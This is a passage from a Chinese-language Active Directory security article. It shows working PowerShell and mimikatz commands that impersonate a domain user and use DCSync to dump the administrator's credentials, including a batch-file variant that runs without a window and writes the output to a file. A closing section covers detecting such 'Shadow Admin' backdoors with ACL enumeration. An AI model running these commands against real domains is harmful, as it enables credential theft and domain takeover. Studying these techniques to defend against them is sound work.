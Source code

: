 #### 3.使用powershell实现登录test1用户，再使用DCSync

(1)弹出cmd

```
$uname="test\test1"                                                      
$pwd=ConvertTo-SecureString "12345678" -AsPlainText –Force                   
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)        
Start-Process -FilePath "cmd.exe" -Credential $cred  
```

弹出的cmd下执行如下命令：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

(2)不弹框实现

```
$uname="test\test1"                                                      
$pwd=ConvertTo-SecureString "12345678" -AsPlainText –Force                   
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)        
Start-Process -FilePath "c:\test\1.bat" -Credential $cred
```

1.bat的内容如下:

```
c:\test\mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit>c:\test\1.txt
```

**注：**

使用wmic在本机实现登录用户test1会失败，错误如下：

```
ERROR:
Description = User credentials cannot be used for local connections
```

## 0x04 自动化检测DCSync后门的方法
---

具有高权限但不在高权限组的用户被称之为Shadow Admin，例如0x03中的域用户test1，仅通过查询高权限组的成员无法发现域内的Shadow Admin

**检测原理：**

枚举Active Directory中所有用户的ACL，标记出特权帐户

**实现代码：**

https://github.com/cyberark/ACLight

**利用条件：**

- Powershell v3.0
- 域内普通用户权限
